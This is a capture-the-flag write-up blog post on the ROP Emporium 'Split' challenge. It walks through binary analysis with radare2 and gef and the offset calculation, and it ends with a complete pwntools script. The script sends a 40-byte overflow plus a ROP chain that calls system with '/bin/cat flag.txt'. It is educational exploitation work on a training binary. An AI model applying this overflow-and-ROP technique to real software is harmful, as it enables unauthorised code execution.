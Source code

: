 ```yaml
---
layout: post
title:  "ROP Emporium - Split"
date:   2020-05-15 14:07:20
categories: [ROP]
excerpt: "This is the Second challenge from ROP Emporium, named as Split. In this challenge we have to create a small ROP Chain which execute system and give us the flag to complete the challenge. Through out this i am going to use radare2 as much as i can, just for the sake of learning the tool. Radare2 is a complete framework for reverse-engineering and analyzing binaries."

comments: true
---
```



## Introduction
This is the Second challenge from ROP Emporium, named as **Split**. In this challenge we have to create a small ROP Chain which execute system and give us the flag to complete the challenge. Through out this i am going to use radare2 as much as i can, just for the sake of learning the tool. Radare2 is a complete framework for reverse-engineering and analyzing binaries.

> I assume that anyone reading this post is familiar with the basics of binary exploitation, as i skipped explaining many basic things. And please note that i am just learning these concepts, none of these things are new research or expert opinion. 

> Challenge Description: 
Combine elements from the ret2win challenge that have been split apart to beat this challenge. Learn how to use another tool whilst crafting a short ROP chain.

###### Tools Used:


+ ROPGadget 
+ Pwntools  
+ Radare2   
+ GDB & gef
 

###### About the Binary:
Our binary is usual ELF executable in 64-bit architecture.Lets check what protection are on this binary, using rabin2, which comes with **radare2 framework**.

![source-01](/img/Screenshot_2020-05-13_12-32-28.png){: .align-left}


PIE isn't enabled and nx set to true, so we know shellcode cannot be executed off the stack and the binary has ASLR disabled.

## Analyzing the 64bit ELF binary
Lets load the binary with radare2 and dump the functions. The afl command list the functions. We can also output it as JSON using this command aflj~{}

![source-01](/img/Screenshot_2020-05-13_08-41-16.png){: .align-left}


Here we can see three interesting functions:

+ **main()**
+ **pwnme()**
+ **usefulFunction()**

So lets disassemble the binary and see what these fucntions does!

###### main():


![source-01](/img/Screenshot_2020-05-13_08-44-57.png){: .align-left}


The only interesting thing here for us is, its calling the function name **pwnme()** which have overflow vulnerability.

###### pwnme():


![source-01](/img/Screenshot_2020-05-13_08-48-45.png){: .align-left}


Just like in retwin challenge, we have a 32 byte buffer that can be overflowed with fgets that takes 96 characters from the user.


###### usefulFunction()


![source-01](/img/Screenshot_2020-05-13_08-34-01.png){: .align-left}


This function directly call system with **/bin/ls**, which list the files in current working directory and there is also usefullstring which **/bin/cat flag.txt**. so we need to return to this function to exploit the binary successfuly. 


## Fuzzing:
So now the binary analysis is out of the way. Lets start fuzzing the binary. Generate the unique pattern and send to the program.

```
gef➤  pattern create 100
[+] Generating a pattern of 100 bytes
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa
[+] Saved as '$_gef0'
gef➤  r
Starting program: /root/Desktop/ROP/split/split/split 
split by ROP Emporium
64bits

Contriving a reason to ask user for data...
> aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa

Program received signal SIGSEGV, Segmentation fault.


```
As expected the program crashed and we have a valid crash scenario here.We have overwritten rsp with our unique patters.

![source-01](/img/Screenshot_2020-05-15_10-20-53.png){: .align-left}




###### Calculating offset

Copy the value in RSP to pattern offset tool, to get exatch offset
```
gef➤  pattern offset 0x00007fffffffe048
[+] Searching '0x00007fffffffe048'
[+] Found at offset 40 (little-endian search) likely
[+] Found at offset 33 (big-endian search) 
gef➤  

```

## Building the ROP-Chain

Lets find the building blocks that need to build our ROP chain.

######  UsefulString “/bin/cat flag.txt” 

Using rabin2 to find all the strings in the binary


![source-01](/img/Screenshot_2020-05-15_14-55-41.png){: .align-left}


######  sytem@plt

Using objdump grab the address of system@plt.

![source-01](/img/Screenshot_2020-05-16_07-41-34.png	){: .align-left}


######  pop rdi; ret gadget

I used ROPGadget to find the pop rdi ret.

![source-01](/img/Screenshot_2020-05-14_08-23-29.png	){: .align-left}



#### Exploitation 

Now we have everything we need to put together our first ROPChain, let’s craft the payload.

+ Junk + pop_rdi + bin_cat + system_plt

+ b"A" * 40 + 0x0000000000400883 + 0x00601060 + 0x4005e0



Final exploit using pwntools:

```python

 #!/usr/bin/python                                                                                                                                                    
 from pwn import *                                                                                                                                                    
                                                                                                                                                                      
 def main():                                                                                                                                                          
     context.log_level = "info"                                                                                                                                       
     elf = ELF('./split')                #binary path                                                                                                                 
     p = process(elf.path)                                                                                                                                            
     offset = b"A" * 40                  # Offset at 40                                                                                                           
     usefullString = p64(0x00601060)     # Rabin2 -z split                                                                                                            
     system_plt = p64(0x4005e0)          # objdump -d split                                                                                                           
     pop_rdi = p64(0x0000000000400883)   # ROPgadget.py --binary split | grep 'pop rdi'                                                                               
     payload = offset + pop_rdi + usefullString + system_plt                                                                                                          
     p.sendlineafter(">",payload)                                                                                                                                     
     print (p.recvall())                                                                                                                                              
                                                                                                                                                                      
 if __name__ == "__main__":                                                                                                                                           
     main()   
```
Running the exploit!! we got the flag!

![source-01](/img/Screenshot_2020-05-16_13-29-52.png){: .align-left}


###### End 

Thats the end of split challenge,I learned how to build my first simple ROPChain and simple usage of radare2.

> Code for this challenge available from my github repo:  https://github.com/d3b4g/ROP-Emporium






